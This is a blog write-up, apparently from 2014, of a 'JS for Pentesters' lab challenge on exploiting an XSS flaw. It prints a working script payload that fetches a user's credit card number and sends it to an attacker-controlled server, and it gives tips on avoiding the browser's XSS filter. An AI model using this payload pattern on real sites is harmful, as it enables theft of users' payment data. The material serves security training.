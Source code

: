 

##
#
https://blog.0daylabs.com/2014/11/01/xss-ex-filtrating-data-xmlhttprequest-js-pentesters-task-15-write/
#
##

XSS - Ex-filtrating data with XMLHttpRequest(): JS for Pentesters task 15 write up
Nov 1, 2014 • jsp, javascript, xss, security-tube

writeup for task-15 of the JS for pentesters series by security-tube - Ex-filtrating data with XMLHttpRequest()
Till now we have seen 2 different challenges with XMLHttpRequest() with GET request. Now let us look into a challenge were we need to post data not by GET method but by POST method. Let us look into the challenge:

JS for Pentesters task 15

Our Objective of the challenge is to Find John’s Credit Card Number using an XSS vulnerability on this page and post the Credit Card Number to your Attacker Server. Here as we stated above, the key difference is that we should do a POST request to the server. Let us look into the correct payload:

```
    <script>
    var xhr = new XMLHttpRequest();    
    xhr.open('POST', 'http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore', true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.onload = function () {
    var request = new XMLHttpRequest();
    request.open('GET', 'http://localhost:8000/?creditcard='+xhr.responseText, true);
    request.send()
    };
    xhr.send('user=john');
    </script>
```

So what have we done above ? We have created a new XMLHttpRequest() object and then we opened the link by specifying the request type as POST. Then we used the setRequestHeader() so that the entire URL should be properly encoded or else it won’t work. After that, its all normal procedure like we did before. A small difference is that we are declaring one more XMLHttpRequest() object inside the onload since we need to post it our server also. You can do that without XMLHttpRequest too but I just prefer to use it. In the xhr.send(), inside the brackets, we gave the POST parameters and here, it is user=john.

Note:

1) If you didn’t understand the payload properly, I strongly recommend you read the basics of XMLHttpRequest() first and then try again.

2) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

3) You have to URL encode the payload before the injection via the url parameter or else this will fail to work

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
